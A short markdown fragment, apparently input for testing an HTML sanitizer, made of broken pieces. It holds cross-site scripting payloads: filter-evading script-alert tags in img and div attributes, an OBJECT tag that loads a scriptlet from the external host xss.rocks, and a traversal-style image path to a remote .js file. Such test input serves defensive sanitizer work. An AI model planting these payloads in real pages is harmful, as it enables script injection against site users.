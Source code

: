![

<img src='¼script¾alert(¢XSS¢)¼/script¾'>
<div dir="¼script¾alert(¢XSS¢)¼/script¾">¼script¾alert(¢XSS¢)¼/script¾</div>

<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>

](()
![a](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js)
